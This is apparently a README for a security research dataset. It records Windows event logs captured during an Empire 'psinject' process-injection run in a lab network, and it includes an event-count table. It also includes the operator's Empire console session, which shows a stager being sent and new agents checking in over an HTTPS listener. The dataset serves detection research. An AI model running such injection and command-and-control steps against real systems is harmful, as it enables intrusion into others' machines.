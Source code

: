 
# Empire Psinject

An adversary can use Empire psinject to inject Unmanaged PowerShell into any process. This project is a reflective DLL based on Stephen Fewer's method. It imports/runs a .NET assembly into its memory space that supports the running of Powershell code using System.Management.Automation.

## Technique(s) ID

T1055

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_psinject.tar.gz](./empire_psinject.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-19151711

## About this file

| log_name                                 | task                                                   |   events_count  |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |            2166 |
| Windows PowerShell                       | Provider Lifecycle                                     |              16 |
| Windows PowerShell                       | Engine Lifecycle                                       |               2 |
| Security                                 | Filtering Platform Connection                          |             240 |
| Security                                 | Token Right Adjusted Events                            |             179 |
| Security                                 | User Account Management                                |             149 |
| Security                                 | Group Membership                                       |               8 |
| Security                                 | Logon                                                  |               8 |
| Security                                 | Logoff                                                 |               7 |
| Security                                 | Special Logon                                          |               6 |
| Security                                 | File Share                                             |               2 |
| Security                                 | Detailed File Share                                    |               1 |
| Security                                 | Other Object Access Events                             |               1 |
| Security                                 | Process Termination                                    |               1 |
| Security                                 | Sensitive Privilege Use                                |               1 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |             293 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             225 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |             217 |
| Microsoft-Windows-Sysmon/Operational     | CreateRemoteThread detected (rule: CreateRemoteThread) |              88 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              88 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              28 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              23 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |              17 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |               4 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               1 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |            2115 |
| Microsoft-Windows-PowerShell/Operational | Execute a Remote Command                               |               1 |
| Microsoft-Windows-PowerShell/Operational | PowerShell Named Pipe IPC                              |               1 |
| Microsoft-Windows-PowerShell/Operational | Starting Command                                       |               1 |

## Empire Activity

```
psinject https 8148
```

```
[*] Tasked G6BYHU4F to run TASK_CMD_JOB
[*] Agent G6BYHU4F tasked with task ID 6
[*] Tasked agent G6BYHU4F to run module powershell/management/psinject
(Empire: G6BYHU4F) > Job started: 2AZBLF
[*] Sending POWERSHELL stager (stage 1) to 10.0.10.104
[*] New agent MPB3UHD1 checked in
[+] Initial agent MPB3UHD1 from 10.0.10.104 now active (Slack)
[*] Sending agent (stage 2) to MPB3UHD1 at 10.0.10.104

(Empire: G6BYHU4F) > 
(Empire: G6BYHU4F) > 
(Empire: G6BYHU4F) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 2MES3XN6 ps 172.18.39.105   IT001             SHIRE\pgustavo          powershell         4312   5/0.0    2019-03-19 14:11:49  https           
 G6BYHU4F ps 172.18.39.105   IT001             *SHIRE\pgustavo         powershell         9156   5/0.0    2019-03-19 14:11:50  https           
 MPB3UHD1 ps 172.18.39.105   IT001             *SHIRE\pgustavo         cmd                8148   5/0.0    2019-03-19 14:11:47  https           


(Empire: agents) >
```